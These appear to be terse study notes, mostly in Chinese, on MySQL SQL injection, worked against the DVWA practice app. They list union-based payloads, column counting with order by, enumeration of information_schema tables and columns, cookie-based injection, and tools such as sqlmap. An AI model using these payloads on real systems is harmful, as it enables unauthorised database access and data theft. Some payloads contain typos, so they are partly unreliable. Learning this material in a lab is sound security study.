 # Mysql
Mysql above 5.0
Mysql under 5.0

## Inject
- 数值注入
- 字符注入
- 搜索型注入
select * from news where password like '%best%'
select * from news where password like '%best%'　union select 1, version(),2,3,4,5'%
可以打印 MySQL 版本号

## Inject a station

### order by
id=1' order by 8
进行测试数据库中的列数

### union
id=1' union select database(), user(), version()
可以显示出数据可以的数据库名字，使用用户，数据库版本


### look up root and password
id=1' union select group_concat(table_name) from information_schema.tables where table_schema=0x64767761
0x64767761 16 进制 转化后 是 该数据库的名字 dvwa
解释：查询 information_schema 库的 tables 表中，table_schema 中 dvwa 的 table_name 列的所有数据

information_schema.columns   表的列的信息
id=1' union select group_concat(column_name) from information_schema.columns where table_name=0x64767761


## boom database
schemata 查找数据库的名字
union select 1,schema_name form information_schema.schemata limit 0,1
limit a,b  a 开始  取 b 个数据


## cookies
有些网站会有防注入机制

一般 get post 都有防注入机制，但是 cookies 会很少有防注入机制
cookie:blah blah ;id=50' 如果报错 就是一个注入点
;id=50%20order%20by%2025
测试数据库的数据有多少


## cookies 注入 tools
中转工具
pangolin 穿山甲
havji
sqlmap  design by python
